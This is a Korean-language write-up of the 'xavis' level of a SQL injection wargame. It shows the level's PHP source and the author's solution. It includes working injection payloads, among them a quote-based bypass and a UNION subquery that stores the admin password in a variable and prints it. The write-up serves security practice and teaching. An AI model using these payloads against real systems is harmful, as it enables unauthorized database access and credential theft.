 # xavis

소스코드는 다음과 같다.
```php
<?php 
  include "./config.php"; 
  login_chk(); 
  $db = dbconnect(); 
  if(preg_match('/prob|_|\.|\(\)/i', $_GET[pw])) exit("No Hack ~_~");
  if(preg_match('/regex|like/i', $_GET[pw])) exit("HeHe"); 
  $query = "select id from prob_xavis where id='admin' and pw='{$_GET[pw]}'"; 
  echo "<hr>query : <strong>{$query}</strong><hr><br>"; 
  $result = @mysqli_fetch_array(mysqli_query($db,$query)); 
  if($result['id']) echo "<h2>Hello {$result[id]}</h2>"; 
   
  $_GET[pw] = addslashes($_GET[pw]); 
  $query = "select pw from prob_xavis where id='admin' and pw='{$_GET[pw]}'"; 
  $result = @mysqli_fetch_array(mysqli_query($db,$query)); 
  if(($result['pw']) && ($result['pw'] == $_GET['pw'])) solve("xavis"); 
  highlight_file(__FILE__); 
?>
```
`blind SQLI`를 진행해서 `admin`계정의 `password`를 알아내는 것 같다.

취약점을 찾아보니 이전에 풀던 문제들처럼 `'`으로 우회가 가능했다.
> ?pw=%27||%271%27=%271

분명 문제를 풀기 위한 다른 키워드가 있을 것이다.

그래서 전에 쓰던 코드들을 이용하여 찾아봐도 아무리 값이 안나온다.
`0-9a-z`의 범위에 없는것이다.

그래서 확장 아스키코드를 쓰거나, 유니코드를 쓰거나 여러 방법들을 총동원하여 찾아야하지만

`preg_match`에 `union`이 포함이 안되어있네요

`union`키워드를 이용하여, 서브쿼리에 변수를 이용해 값을 넣고 출력할 예정이다.

> ?pw=%27||%20(select%20@a:=pw%20where%20id=%27admin%27)%20union%20select%20@a%23
> select id from prob_xavis where id='admin' and pw=''|| (select @a:=pw where id='admin') union select @a#'

이런 코드가 나오고 `pw`가 같이 출력된다.
이를 이용해 Clear!
